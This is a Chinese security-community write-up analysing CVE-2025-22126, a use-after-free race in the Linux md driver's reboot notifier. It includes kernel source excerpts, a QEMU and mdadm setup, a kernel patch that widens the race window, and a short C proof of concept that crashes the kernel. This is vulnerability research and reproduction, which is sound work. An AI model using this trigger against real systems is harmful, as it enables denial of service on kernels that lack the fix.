




# CVE-2025-22126漏洞分析与复现-先知社区

> **来源**: https://xz.aliyun.com/news/18184  
> **文章ID**: 18184

---

# CVE-2025-22126漏洞分析与复现

## 漏洞分析

看了下CVE的commit信息，很容易就能了解漏洞的关键所在。

漏洞位于drivers/md/md.c:9676的md\_notify\_reboot函数。

在循环对每一个mddev进行操作的时候，使用的是list\_for\_each\_entry\_safe宏。

```
static int md_notify_reboot(struct notifier_block *this,
                            unsigned long code, void *x)
{
    struct mddev *mddev, *n;
    int need_delay = 0;

    spin_lock(&all_mddevs_lock);
    list_for_each_entry_safe(mddev, n, &all_mddevs, all_mddevs) {
        if (!mddev_get(mddev))
            continue;
        spin_unlock(&all_mddevs_lock);
        if (mddev_trylock(mddev)) {
            if (mddev->pers)
                __md_stop_writes(mddev);
            if (mddev->persistent)
                mddev->safemode = 2;
            mddev_unlock(mddev);
        }
        need_delay = 1;
        mddev_put(mddev);
        spin_lock(&all_mddevs_lock);
    }
    spin_unlock(&all_mddevs_lock);
    ...
```

当all\_mddevs\_lock上锁时，就不允许其他异步函数再去访问all\_mddevs，这一步是十分安全的。

但是上面的代码可以看到，在mddev\_get之后就会解锁开放对all\_mddevs的访问，如果使用list\_for\_each\_entry来进行遍历，那这一步是没有问题的，毕竟在整个mddev访问阶段都是在上锁期间或者get后，mddev都不可能被释放。

但这里使用的确实list\_for\_each\_entry\_safe宏，该宏定义如下：

```
#define list_for_each_entry_safe(pos, n, head, member)          \
    for (pos = list_first_entry(head, typeof(*pos), member),    \
        n = list_next_entry(pos, member);           \
         !list_entry_is_head(pos, head, member);            \
         pos = n, n = list_next_entry(n, member))
```

可以看到该宏会优先保存next指针到n变量中，方便下次迅速访问。

但这个宏配合刚刚的操作就会产生漏洞，因为n保存next指针，也就是此时mddev1、mddev2前后两个mddev都被引用了，却只对mddev1进行了get，这就导致下面标记的这个期间，all\_mddevs没有上锁，mddev2又没有get保护，此时我们释放mddev2是完全可以的。

```
list_for_each_entry_safe(mddev, n, &all_mddevs, all_mddevs) {
    if (!mddev_get(mddev))
        continue;
    spin_unlock(&all_mddevs_lock);
    //从这里
    if (mddev_trylock(mddev)) {
        if (mddev->pers)
            __md_stop_writes(mddev);
        if (mddev->persistent)
            mddev->safemode = 2;
        mddev_unlock(mddev);
    }
    need_delay = 1;
    mddev_put(mddev);
    //到这期间
    spin_lock(&all_mddevs_lock);
}
```

释放完mddev2之后，list\_for\_each\_entry\_safe再去取mddev2就会导致uaf。

mddev是一个blk设备（块设备），可通过cat /proc/devices查看对应的设备号，然后通过mknod对改设备注册虚拟文件。（mknod /dev/mddev b 设备号 0)

按照断点情况，往/dev/mddev写入内容会触发probe探测函数，并会创建一个/dev/md0设备文件，open该设备文件会触发md\_open。

而我们的目的是，先触发probe创建2个设备文件，之后在触发notify\_reboot期间调用free\_disk释放指定设备文件。

编译新版内核的时候要开启x2apic选项，防止调试的时候一直interrupt在apic函数。

#### RAID

|  |  |  |
| --- | --- | --- |
| **RAID 级别** | **功能描述** | **典型用途** |
| **Linear** | 简单串联磁盘，无冗余或条带化 | 合并多个小磁盘为大容量设备 |
| **RAID 0** | 条带化（Stripe），提升读写性能 | 高性能存储，无冗余需求 |
| **RAID 1** | 镜像（Mirror），数据完全复制 | 高可用性，容忍单盘故障 |
| **RAID 5** | 分布式奇偶校验，兼顾性能与冗余 | 平衡存储效率与容错能力 |
| **RAID 6** | 双奇偶校验，容忍双盘故障 | 对数据安全性要求极高的场景 |
| **RAID 10** | RAID 1 + RAID 0 的组合（先镜像再条带） | 高性能+高冗余 |

#### mddev

md块设备核心作用就是将多个小磁盘统一管理，以此方便迅速的操作磁盘资源。

要先mknod /dev/md0 b 9 0为块设备创建节点。

然后需要使用mdadm工具为来创建并管理。

因为我们使用的是qemu运行bzImage，所以需要通过如下方式来创建多个磁盘并导入。

```
#创建磁盘
qemu-img create -f raw disk1.img 1G
qemu-img create -f raw disk2.img 1G
qemu-img create -f raw disk3.img 1G

#qemu中添加drive以及/dev/vda。
sudo qemu-system-x86_64 \
        -m 1G\
        -cpu qemu64,+smep,+smap \
        -kernel bzImage \
        -drive file=disk1.img,format=raw,if=virtio \
        -drive file=disk2.img,format=raw,if=virtio \
        -drive file=disk3.img,format=raw,if=virtio \
        -initrd rootfs.cpio \
        -monitor /dev/null \
        -append "root=/dev/vda console=ttyS0 nokaslr quiet panic=1" \
        -nographic \
        -enable-kvm \
        -s
#qemu中
fdisk /dev/vda
fdisk /dev/vdb
fdisk /dev/vdc
# 在 fdisk 中：
#   n → p → 1 → 回车 → 回车 → t → fd (Linux RAID 类型) → w

#查看其RAID元数据
mdadm --examine /dev/vd[a-c]1
#清除RAID元数据
mdadm --zero-superblock /dev/vda1
mdadm --zero-superblock /dev/vdb1
mdadm --zero-superblock /dev/vdc1

#创建RAID5阵列，编译选项搜索MD_RAID，开启RAID0
mdadm --create /dev/md0 --level=0 --raid-devices=1 --force --bitmap=none --metadata=0.90 /dev/vda1
mdadm --create /dev/md1 --level=0 --raid-devices=1 --force --bitmap=none --metadata=0.90 /dev/vdb1
mdadm --create /dev/md2 --level=0 --raid-devices=1 --force --bitmap=none --metadata=0.90 /dev/vdc1

#之后再去移除/dev/md1即可触发free_disk清除该设备。
mdadm --stop /dev/md1

# 查看阵列状态
#mdadm --detail /dev/md0

# 添加新磁盘
#mdadm --add /dev/md0 /dev/vda1
```

通过如上三个步骤我们成功的创建了三个设备，此时只需要在md\_notify\_reboot期间，删除md2即可触发UAF。

## 漏洞复现

md\_notify\_reboot是notifier\_block结构体的函数成员，当设备出现故障时会触发。

```
static struct notifier_block md_notifier = {
    .notifier_call  = md_notify_reboot,
    .next       = NULL,
    .priority   = INT_MAX, /* before any real devices */
    };
```

根据函数名可以知道，系统在reboot的时候就会触发该函数。

链子大概就是：

```
kernel_restart_prepare->
    blocking_notifier_call_chain->
        md_notify_reboot
```

因为是条件竞争，所以这里我还是通过修改内核源码来扩大时间差，从而增加竞争可能性。

我对md\_notify\_reboot进行了如下改动，加了个循环延迟:

```
//防止被优化
static int md_notify_reboot(struct notifier_block *this, unsigned long code, void *x) __attribute__((optimize("O0")));
static int md_notify_reboot(struct notifier_block *this,
                            unsigned long code, void *x)
{
    struct mddev *mddev, *n;
    int need_delay = 0;

    spin_lock(&all_mddevs_lock);
    int cnt = 0;//用于指定对应的mddev，不过这里是多余的，因为只有两个设备。
    list_for_each_entry_safe(mddev, n, &all_mddevs, all_mddevs) {
        if (!mddev_get(mddev))
            continue;
        spin_unlock(&all_mddevs_lock);
        if (mddev_trylock(mddev)) {
            if (mddev->pers)
                __md_stop_writes(mddev);
            if (mddev->persistent)
                mddev->safemode = 2;
            mddev_unlock(mddev);
        }
        need_delay = 1;
        mddev_put(mddev);
        if (cnt == 0){
            //提供延迟。
            for (unsigned long i = 0, a = 1; i < 0xffffffff; i++){
                a *= 0x1234567;
                a /= 0x1234;
            }
        }
        cnt++;
        spin_lock(&all_mddevs_lock);
    }
    spin_unlock(&all_mddevs_lock);
    ...
```

之后我们只需要简单构造这么个poc。

```
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>

int main(){
    system("echo -e 'y
y' | mdadm --create /dev/md0 --level=0 --raid-devices=1 --force --bitmap=none --metadata=0.90 /dev/vda1");
    system("echo -e 'y
y' | mdadm --create /dev/md1 --level=0 --raid-devices=1 --force --bitmap=none --metadata=0.90 /dev/vdb1");
    sleep(3);
    system("mdadm --stop /dev/md0");
}
```

然后通过nohup命令让程序在后台运行poc程序，之后再exit触发poweroff的reboot。

```
/ $ ./root_shell
/ # nohup ./main &
/ # nohup: appending output to nohup.out

/ # exit
/ $ exit
```

然后程序在循环延迟期间，poc程序调用mdadm --stop /dev/md0触发md\_free\_disk释放mddev。



循环延迟结束后，继续遍历下一个mddev，这里可以看到获取的mddev和刚刚释放的是一样的。



slub-dump也能看到该堆块已经被释放了，同时next指针被修改成了0.



成功触发崩溃异常。



## 总结

漏洞的关键点在于list\_for\_each\_entry\_safe宏的滥用，该宏会同时获取current以及next指针，而在循环过程中一般只会对current指针加引用并释放全局锁（错误认为只对current指针加引用即可保证安全性），却忘记了next指针已经被获取，从而可通过异步释放next指针，导致UAF漏洞。

这个漏洞面对我而言也是很新颖的，无论是list\_for\_each\_entry\_safe宏还是其他类似取双指针的操作，都很容易出现UAF漏洞，可以深究。
